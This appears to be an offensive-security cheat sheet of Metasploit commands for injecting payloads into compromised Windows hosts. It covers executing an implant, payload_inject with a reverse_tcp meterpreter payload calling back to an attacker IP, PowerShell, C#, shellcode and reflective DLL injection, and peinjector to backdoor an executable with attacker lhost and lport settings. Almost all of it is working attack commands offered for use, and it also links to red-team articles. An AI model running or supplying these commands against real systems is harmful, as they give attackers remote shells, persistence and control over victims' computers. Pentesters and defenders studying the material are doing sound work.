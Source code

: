 # Metasploit

Search Tag(s): #metasploit-framework

## 01 - Metasploit

TODO: Go through every MSF module

Spawn implant by executing the payload.

```
meterpreter > execute -Hicf payload.exe
```

## Inject via Payload Module

```
msf > use exploit/windows/local/payload_inject

options
```

```
meterpreter > run exploit/windows/local/payload_inject payload=windows/x64/meterpreter/reverse_tcp lhost=<IP>
```

## Inject PowerShell Payload

```
use post/windows/manage/exec_powershell
```

```
post/windows/manage/multi_meterpreter_inject
```

## Inject C\# Payload

```
msf > use post/windows/manage/powershell/build_net_code

msf post(windows/manage/powershell/build_net_code) > options

msf post(windows/manage/powershell/build_net_code) > set source_file /path/to/payload.cs

msf post(windows/manage/powershell/build_net_code) > run
```

## Inject Shellcode

```
meterpreter > run post/windows/manage/shellcode_inject
```

## Inject DLL Binary

```
post/windows/manage/reflective_dll_inject
```

## Inject EXEcutable Binary

```
meterpreter > load peinjector

Peinjector Commands
===================

    Command       Description
    -------       -----------
    injectpe      Inject a shellcode into a given executable
..[omitted]..
```

TODO: Fill this info

```
meterpreter > injectpe
```

```
msf post(windows/manage/peinjector) > set targetpe C:\\path\\to\\to\\program.exe

msf post(windows/manage/peinjector) > set session <session_ID>

msf post(windows/manage/peinjector) > set lhost <attacker_IP>

msf post(windows/manage/peinjector) > set lport <attacker_PORT>

msf post(windows/manage/peinjector) > run
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Build .NET Code](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/powershell/build_net_code.md)

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester - Inject Payload into Executable](https://www.hackingarticles.in/metasploit-for-pentester-inject-payload-into-executable/)

### Shell is Coming

- [Shell is Coming: Metasploit - Getting Ingress firewall rules](https://www.shelliscoming.com/2013/07/getting-ingress-firewall-rules.html)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)
